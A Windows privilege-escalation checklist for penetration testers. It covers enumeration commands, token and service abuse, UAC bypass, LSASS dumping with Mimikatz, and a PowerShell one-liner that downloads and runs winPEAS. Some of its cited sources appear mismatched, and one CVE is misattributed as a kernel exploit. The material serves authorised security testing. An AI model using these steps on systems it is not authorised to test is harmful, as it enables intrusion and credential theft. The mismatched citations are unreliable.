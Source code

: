 ##  Windows Priv-Esc Checklist
### 0. Preparation

- [ ] Confirm current context: `whoami /priv`, `whoami /groups`    
- [ ] Start logging: `Start-Transcript -Path C:\temp\privesc_log.txt`
- [ ] Drop enumeration tools if allowed (e.g., **winPEAS**, **Seatbelt**, **SharpUp**)
### 1. System Enumeration

- [ ]  OS & build: `systeminfo`, `ver`    
- [ ] Installed hotfixes: `wmic qfe get HotFixID,InstalledOn` / `Get-HotFix` ([onlinehashcrack.com](https://www.onlinehashcrack.com/guides/ethical-hacking/windows-enumeration-cheat-sheet-2025.php?utm_source=chatgpt.com "Windows Enumeration Cheat Sheet 2025 - [ ]Online Hash Crack"))
- [ ] Installed software: `wmic product get name,version`
- [ ] Running procs & services: `tasklist /svc`, `sc query state= all`
- [ ] Scheduled tasks: `schtasks /query /fo LIST /v`
- [ ] Network & shares: `ipconfig /all`, `net share`, `net view`, `netstat -ano`
- [ ] Domain context: `echo %USERDOMAIN%`, `nltest /dclist:%USERDOMAIN%`
- [ ] PATH & env vars for writable dirs: `set`    
### 2. Token / Impersonation Vectors

- [ ] **SeImpersonate / SeAssignPrimaryToken** → try **PrintSpoofer / JuicyPotatoNG** ([github.com](https://github.com/mthcht/ThreatHunting-Keywords/blob/main/GUIDproject_tag_detection.csv?utm_source=chatgpt.com "ThreatHunting-Keywords/GUIDproject_tag_detection.csv at main"))    
- [ ] **SeBackup / SeRestore** → copy SAM+SYSTEM hives, crack offline
- [ ] **SeDebug** → inspect privileged procs
- [ ] **SeLoadDriver** → load vulnerable driver → kernel exploit
### 3. Services & Binaries

- [ ] Hunt **unquoted paths**: `wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /v "C:\Windows\\"`   
- [ ] Weak service ACLs: `accesschk.exe -uwcqv "Authenticated Users" *`
- [ ] Writable `ImagePath` or parameters: `reg query HKLM\SYSTEM\CurrentControlSet\Services\ /s`
- [ ] If write-able → replace binary / change `binPath` → restart service
### 4. Registry-Based Escalation

- [ ] **AlwaysInstallElevated** flags in HKCU & HKLM    
- [ ] Weak `Run/RunOnce` keys (check ACLs with `icacls`)
- [ ] Permissive autorun binaries → overwrite with payload
### 5. File / DLL Hijacking

- [ ] Writable dirs in `%PATH%` → plant fake exe/dll    
- [ ] Search for application DLL search-order issues → place malicious DLL
### 6. Scheduled Tasks

- [ ] Review tasks XML in `C:\Windows\System32\Tasks\`    
- [ ]  Writable task → modify to launch payload as SYSTEM
### 7. UAC Bypass (if in Administrators but medium integrity)

- [ ] Test `fodhelper.exe`, `eventvwr.msc`, `sdclt.exe` hijacks    
- [ ] Use `uacme` or Mimikatz `privilege::bypassuac` where possible
### 8. Credential Harvesting

- [ ] Dump LSASS (`procdump -ma lsass.exe lsass.dmp`) → run Mimikatz    
- [ ] List cached creds: `cmdkey /list`, `vaultcmd /listcreds`
- [ ] Seatbelt quick sweep: `Seatbelt.exe -group=credentials` ([delinea.com](https://delinea.com/blog/windows-privilege-escalation?utm_source=chatgpt.com "Privilege Escalation on Windows (With Examples) - [ ]Delinea"))
### 9. Kernel / Driver Exploits

- [ ] Match build to CVEs (e.g., **CVE-2024-21410**, **CVE-2023-36802**) ([hedgehogsecurity.co.uk](https://www.hedgehogsecurity.co.uk/blog/cve-2024-21410?utm_source=chatgpt.com "CVE-2024-21410, what is it and does it really matter to me?"), [steflan-security.com](https://steflan-security.com/windows-privilege-escalation-cheat-sheet/?utm_source=chatgpt.com "Windows Privilege Escalation Checklist - [ ]Steflan's Security Blog"))    
- [ ] Transfer & run exploit → verify `whoami` = `NT AUTHORITY\SYSTEM`
### 10. Containers / Virtual Artifacts

- [ ] Look for VMDK/VHDX mounts or Docker Desktop → abuse host mounts  
### 11. Post-Escalation

- [ ] Confirm SYSTEM shell    
- [ ] Dump hashes / create shadow copy
- [ ] Establish persistence (as permitted)
- [ ] Clean artifacts and finish transcript
### One-Liner Recon (optional)

```powershell
iwr -useb https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/winPEASany.exe -OutFile winpeas.exe; .\winpeas.exe quiet
```

WinPEAS highlights most of the above vectors in one shot ([medium.com](https://medium.com/%40sodahack/windows-privilege-escalation-guide-11ee6707794b?utm_source=chatgpt.com "Windows Privilege Escalation Guide | by Sodatex - [ ]Medium"))
